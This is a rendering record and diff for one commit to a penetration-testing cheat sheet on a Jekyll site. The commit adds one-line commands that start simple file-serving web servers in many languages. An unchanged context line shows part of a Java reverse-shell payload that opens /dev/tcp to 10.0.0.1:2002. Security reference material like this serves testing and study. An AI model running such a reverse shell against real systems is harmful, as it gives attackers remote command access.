

Before and after one commit to datahackare/warz0ne, a Jekyll site: the page built from _posts/2021-03-31-CheatSheet.md, in a window 1280 px wide and 1400 px high, scrolled down 9758 px. Shown: the whole window at 89% size, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 11112 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2021-03-31-CheatSheet.md

````diff
--- a/_posts/2021-03-31-CheatSheet.md
+++ b/_posts/2021-03-31-CheatSheet.md
@@ -484,8 +484,125 @@ p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while rea
 p.waitFor()
 ```
 
+### [](#header-3)Webservers
 
+Python2
 
+```
+python -m SimpleHTTPServer 8000
+```
+
+Python3
+
+```
+python -m http.server 8000
+```
+
+Twisted(Python)
+
+```
+twistd -n web -p 8000 --path .
+```
+
+```
+python -c 'from twisted.web.server import Site; from twisted.web.static import File; from twisted.internet import reactor; reactor.listenTCP(8000, Site(File("."))); reactor.run()'
+```
+
+Ruby
+
+```
+ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start'
+```
+
+Ruby > 1.9.2
+
+```
+ruby -run -ehttpd . -p8000
+```
+
+adsf
+
+```
+gem install adsf   # install dependency
+```
+
+```
+adsf -p 8000
+```
+
+Sinatra(Ruby)
+
+```
+gem install sinatra   # install dependency
+```
+
+```
+ruby -rsinatra -e'set :public_folder, "."; set :port, 8000'
+```
+
+Perl
+
+```
+cpan HTTP::Server::Brick   # install dependency
+```
+
+```
+perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>8000); $s->mount("/"=>{path=>"."}); $s->start'
+```
+
+Plack(Perl)
+
+```
+cpan Plack   # install dependency
+```
+
+```
+plackup -MPlack::App::Directory -e 'Plack::App::Directory->new(root=>".");' -p 8000
+```
+
+Mojolicious(Perl)
+
+```
+cpan Mojolicious::Lite   # install dependency
+```
+
+```
+perl -MMojolicious::Lite -MCwd -e 'app->static->paths->[0]=getcwd; app->start' daemon -l http://*:8000
+```
+
+node-static(Node.js)
+
+```
+npm install -g node-static   # install dependency
+```
+
+```
+static -p 8000
+```
+
+PHP
+
+```
+php -S 127.0.0.1:8000
+```
+
+Erlang
+
+```
+erl -s inets -eval 'inets:start(httpd,[{server_name,"NAME"},{document_root, "."},{server_root, "."},{port, 8000},{mime_types,[{"html","text/html"},{"htm","text/html"},{"js","text/javascript"},{"css","text/css"},{"gif","image/gif"},{"jpg","image/jpeg"},{"jpeg","image/jpeg"},{"png","image/png"}]}]).'
+```
+
+webgf
+
+```
+webfsd -F -p 8000
+```
+
+IIS Express
+
+```
+C:\> "C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\MyWeb /port:8000
+```
 
 ### [](#header-3)Misc
 
````
